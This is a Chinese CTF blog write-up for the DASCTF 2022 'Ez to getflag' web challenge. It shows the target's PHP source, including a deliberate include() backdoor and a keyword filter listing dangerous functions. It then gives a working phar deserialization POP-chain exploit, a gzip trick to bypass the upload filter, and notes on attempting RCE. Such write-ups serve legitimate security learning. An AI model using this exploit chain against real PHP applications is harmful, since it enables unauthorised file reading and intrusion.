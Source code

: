 ```yaml
---
title: DASCTF 2022 7月赋能赛 writeup
date: 2022-07-24 18:34:00
updated: 2022-07-24 18:34:00
tags: [ctf,security]
description: DAS的练手小比赛啦，打的不太好，继续沉淀
---
```

目前水平确实不足，下午看了几个小时的题目只出了一道web签到题，感觉这DAS的比赛纯粹为了CTF而出题，就像Ez to getflag这个题目，作为一个用户来说上传了一个1.png然后输入1.png查询查不到的话，这应该很难认为是个能用的web服务，纯ctf技巧题吧，比赛时候也做了非常久。

## Ez to getflag

一个文件上传的简单功能，总共俩接口 一个上传一个查询。
在接口/upload.php 的响应头中发现PHP/7.4.11。
查询接口有WAF 不能用`..`，但是可以读取源码。

源码
upload.php

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $upload = new Upload();
    $upload->uploadfile();
?>
```

file.php

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $filename = $_GET['f'];
    $show = new Show($filename);
    $show->show();
?>
```

class.php

```php
<?php
    class Upload {
        public $f;
        public $fname;
        public $fsize;
        function __construct(){
            $this->f = $_FILES;
        }
        function savefile() {  
            $fname = md5($this->f["file"]["name"]).".png";
            if(file_exists('./upload/'.$fname)) {
                @unlink('./upload/'.$fname);
            }
            move_uploaded_file($this->f["file"]["tmp_name"],"upload/" . $fname);
            echo "upload success! :D";
        }
        function __toString(){
            $cont = $this->fname;
            $size = $this->fsize;
            echo $cont->$size;
            return 'this_is_upload';
        }
        function uploadfile() {
            if($this->file_check()) {
                $this->savefile();
            }
        }
        function file_check() {
            $allowed_types = array("png");
            $temp = explode(".",$this->f["file"]["name"]);
            $extension = end($temp);
            if(empty($extension)) {
                echo "what are you uploaded? :0";
                return false;
            }
            else{
                if(in_array($extension,$allowed_types)) {
                    $filter = '/<\?php|php|exec|passthru|popen|proc_open|shell_exec|system|phpinfo|assert|chroot|getcwd|scandir|delete|rmdir|rename|chgrp|chmod|chown|copy|mkdir|file|file_get_contents|fputs|fwrite|dir/i';
                    $f = file_get_contents($this->f["file"]["tmp_name"]);
                    if(preg_match_all($filter,$f)){
                        echo 'what are you doing!! :C';
                        return false;
                    }
                    return true;
                }
                else {
                    echo 'png onlyyy! XP';
                    return false;
                }
            }
        }
    }
    class Show{
        public $source;
        public function __construct($fname)
        {
            $this->source = $fname;
        }
        public function show()
        {
            if(preg_match('/http|https|file:|php:|gopher|dict|\.\./i',$this->source)) {
                die('illegal fname :P');
            } else {
                echo file_get_contents($this->source);
                $src = "data:jpg;base64,".base64_encode(file_get_contents($this->source));
                echo "<img src={$src} />";
            }

        }
        function __get($name)
        {
            $this->ok($name);
        }
public function__call($name, $arguments)
        {
            if(end($arguments)=='phpinfo'){
                phpinfo();
            }else{
                $this->backdoor(end($arguments));
            }
            return $name;
        }
        public function backdoor($door){
            include($door);
            echo "hacked!!";
        }
        public function __wakeup()
        {
            if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
                die("illegal fname XD");
            }
        }
    }
    class Test{
        public $str;
public function__construct(){
            $this->str="It's works";
        }
        public function __destruct()
        {
            echo $this->str;
        }
    }
?>
```

由于show方法中file_get_contents()函数参数可控，我们可以通过phar伪协议来读取我们上传的phar格式的文件。这里我们通过构造POP链，通过反序列化控制`include($door)`中的参数，从而通过`include`函数包含`/flag`文件，来读取flag。

EXP:

```php
<?php include('class.php');


$t = new Test();
$t->str = new Upload();
$t->str->fname = new Show('1.png');
$t->str->fsize = '/flag';
// $poc = serialize($t);

$phar = new Phar('poc.phar');
$phar->stopBuffering();
$phar->setStub('GIF89a' . '<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt', 'test');
$phar->setMetadata($t);
$phar->stopBuffering();

// print($poc);
```

生成poc.phar文件

```bash
gzip poc.phar
```

使用gzip压缩来绕过对文件内容的检测，得到poc.phar.gz,改名为poc.png。

由于是采用文件名的md5值的方式，读取phar://./upload/ba48d64c6886e802cd5f65e99e8566ee.png即可。
![图 1](https://s2.loli.net/2022/07/24/k6PNqflvVX4xmSz.png)  

一些值得反思的地方：
1.为什么要用phar伪协议？因为题目不管你上传什么，都会给你的命名为md5.png,这样的话你虽然可以想办法传一个内容是png的php文件，比如说用`test.php%00.png`来绕过，这完全可以，但是却没办法当成php文件去执行。所以我们只能选择上传一个phar内容的文件，因为phar格式的文件即便是后缀被修改了，使用phar://这个伪协议读取，还是会按照phar的内容来解析的，甚至是用gzip压缩phar文件，修改后缀上传，也会自动解压一层并且按照phar内容来解析。

2.有没有办法实现RCE？这里只做到了任意文件读取，读取到了flag,有没有可能控制include的函数的参数为data伪协议或者file伪协议，来让include函数包含远程文件，从而实现RCE呢？题目中如果$door接收到参数为phpinfo，那么就会直接执行phpinfo()；借此我们可以查看环境变量中`allow_url_fopen = on` 和 `allow_url_include = off`，前者用于file_get_content，而后者用于`include`,因此我们没有办法通过控制include函数的参数来包含远程的文件。

复盘题目的过程中，在phpinfo中甚至可以找到从环境变量里面读进来的flag？？就离谱
![图 2](https://s2.loli.net/2022/07/24/uXbpDEMWyP7UhvC.png)  

??????不会出题建议是别出
![图 3](https://s2.loli.net/2022/07/24/VudLM3Oqe4DiHFt.png)  
